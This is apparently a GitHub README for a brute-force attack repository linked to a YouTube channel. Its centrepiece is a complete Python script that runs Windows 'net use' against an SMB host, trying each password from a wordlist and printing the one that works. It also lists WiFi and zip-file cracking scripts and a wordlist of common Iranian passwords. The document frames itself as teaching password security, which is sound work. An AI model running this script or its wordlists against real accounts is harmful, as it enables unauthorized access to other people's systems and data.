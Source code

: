 # Brute-force attack

**Author:** Peyman Majidi Moein (aka Peymanx) and Ai

This project is related to a YouTube video on the [peymanx](https://www.youtube.com/@peymanx) channel.

## Table of Contents

- [Introduction](#introduction)
- [Sample Code](#sample-code)
- [Content List](#content-list)
- [Resources](#resources)
- [License](#license)

## Introduction

This repository contains various scripts and tools for performing brute-force attacks on different systems. The primary goal is to demonstrate the vulnerabilities and educate users on the importance of strong passwords and security measures.  

This repository contains a list of commonly used [passwords in Iran](./passwords/commons_iranians.txt). It's designed to help developers and security professionals understand password patterns in the region, improve password policies, and enhance security measures

## Preview
![login](https://github.com/user-attachments/assets/075a2c88-b7e9-41a7-8ee4-7d8e8392d867)

## Sample Code

```python
import os
from tqdm import tqdm
from colorama import Fore, Style, init

# Initialize colorama
init()
os.system('title @peymanx Windows Login Password Brute-force attack')

def connect_to_smb(ip, username, password):
    command = f'net use \\\\{ip} /user:{username} {password} >nul 2>&1'
    result = os.system(command)
    return result == 0

def read_passwords(file_path):
    with open(file_path, 'r') as file:
        passwords = file.readlines()
    return [password.strip() for password in passwords]

def main():
    ip = '127.0.0.1'
    username = 'peymanx'
    password_file = './passwords/common.txt'

    passwords = read_passwords(password_file)
    total_passwords = len(passwords)

    max_password_length = max(len(password) for password in passwords)
    with tqdm(total=total_passwords, desc="Trying passwords", unit="password") as pbar:
        for password in passwords:
            padded_password = password.ljust(max_password_length)
            pbar.set_description(f"{Fore.YELLOW}Trying password: {padded_password}{Style.RESET_ALL}")
            if connect_to_smb(ip, username, password):
                print(f'\n{Fore.GREEN}{"*"*70}')
                print(f'{Fore.GREEN}Successfully connected!')  # Blinking text
                print(f'{Fore.GREEN}Password: \'\033[5m{password}\033[0m{Fore.GREEN}\'')  # Blinking text
                print(f'{Fore.GREEN}{"*"*70}{Style.RESET_ALL}\n')
                break
            pbar.update(1)
        else:
            print(f'\n{Fore.RED}Password not found{Style.RESET_ALL}')

if __name__ == '__main__':
    main()
```

## Content List

- **passwords**
  - More password samples added (Jan 17, 2025)
- **login_hack.py**
  - Windows login hack 
- **wifi_hack.py**
  - WiFi hack 
- **zip_hack.py**
  - Compressed file password hack 

## Resources

- [SecLists is the security tester's companion. It's a collection of multiple types of lists used during security assessments](https://github.com/danielmiessler/SecLists)
- [Persian Words Jadi :)](https://github.com/jadijadi/persianwords)
- [Iranian-Password-list](https://github.com/Dih4v/Iranian-Password-list)
- [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
